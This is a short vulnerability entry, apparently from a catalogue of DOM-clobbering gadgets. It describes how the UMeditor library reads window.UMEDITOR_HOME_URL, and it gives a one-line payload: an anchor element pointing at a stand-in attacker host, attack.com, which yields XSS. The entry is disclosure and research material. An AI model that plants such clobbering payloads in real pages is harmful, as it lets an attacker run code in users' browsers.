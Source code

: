 ## UMeditor

### Meta

+ Library: UMeditor
+ Stars: 1.4K
+ Version: v1.2.2
+ Fingerprint: `typeof window.UM !== 'undefined' && UM.hasOwnProperty('version')`
+ Payload: ```<a id="UMEDITOR_HOME_URL" href="https://attack.com"></a>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/fex-team/umeditor

Self hosted.

### Vulnerable Code Snippet

```javascript
var URL = window.UMEDITOR_HOME_URL || ...
```

```javascript
window.UMEDITOR_CONFIG = {

        //为编辑器实例添加一个路径，这个不能被注释
        UMEDITOR_HOME_URL : URL

        ...
```

## PoC

see ../domc-gadgets-assets/umeditor/poc.html

